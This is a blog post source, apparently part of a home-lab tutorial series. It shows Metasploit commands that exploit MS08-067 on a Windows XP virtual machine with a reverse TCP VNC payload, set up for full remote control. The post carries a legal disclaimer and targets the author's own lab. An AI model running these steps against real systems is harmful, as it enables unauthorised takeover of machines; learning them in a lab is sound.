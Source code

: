 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Target)"
date:   2018-04-16 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 2 (Searching for Targets and their Weaknesses)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

<b>Roadmap</b>

Now comes the fun part. Using a tool called Metasploit in order to break into the Windows XP computer with a VNC. a VNC is simply a window that displays the target desktop. It allows you to control it the same way you are controlling your virtual machine. There are 4 simple steps to this.

Searching for the exploit command

Loading the exploit (Code to exploit the weakness)

Loading the payload (Software used to give you control)

Set the Settings and "pwn the box"

<b>Searching for the Exploit Command</b>

The first thing we need to do is use the code identified in part 2. MS08_067 is the exploit we will use. But how do we load it? We need to get the command from the rapid7 database. Go to...

[https://www.rapid7.com/db][rapid7]

Type "MS08_067" in the search field and make sure "Metasploit Module" is selected in the dropdown box.

Look at the code under "Module Name." We will use that once we load Metasploit

<b>Loading the Exploit and Payload</b>

[Offensive Security: Metasploit Commands][commands]

[Offensive Security: Exploits][exploits]

[Offensive Security: Payloads][payloads]

Open a terminal and load Metasploit's terminal interface with the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Use the exploit we found in Rapid7 with the "use" command.

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

There are many useful payloads. I will recommend we use a reverse TCP payload in order to gain a VNC session. Load the payload with the "set" command.

{% highlight ruby %}
set PAYLOAD windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Settings</b>

We want to see if we have the correct settings. Use the following command.

{% highlight ruby %}
show options
{% endhighlight %}

You should get something that looks like this

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may have noticed a few lines are missing. Specifically LHOST and RHOST. LHOST is the local host (your PC) and RHOST is the remote host (target PC)

Let's fill those in with the set command

{% highlight ruby %}
set RHOST 192.168.1.244
#I am using the ip of my own target computer. Use the IP for your own
{% endhighlight %}

Before we fill in LHOST, we need to the the IP of your own Linux machine.

Press Ctrl+Shift+T in order to bring up a new terminal tab

{% highlight ruby %}
sifconfig
{% endhighlight %}

You should get something like this. I highlighted the IP in yellow. Your IP will be in the same spot but most likely different.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

{% highlight ruby %}
set LHOST 192.168.1.48
#use the IP you just looked up in ifconfig
{% endhighlight %}

We filled in all the empty fields so we should be good right? Almost. By default, the VNC will only let you spy on the target machine. We want to enable control. Make one more setting.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

Run the show options again and make sure you have these settings.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

<b>Hack It!</b>

Finally, run the command

{% highlight ruby %}
exploit
{% endhighlight %}

Congratulations, you did it!!

![image tooltip](/blog/images/ms08_067/owned.JPG)

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[rapid7]: https://www.rapid7.com/db
[commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
[exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[payloads]: https://www.offensive-security.com/metasploit-unleashed/payloads/
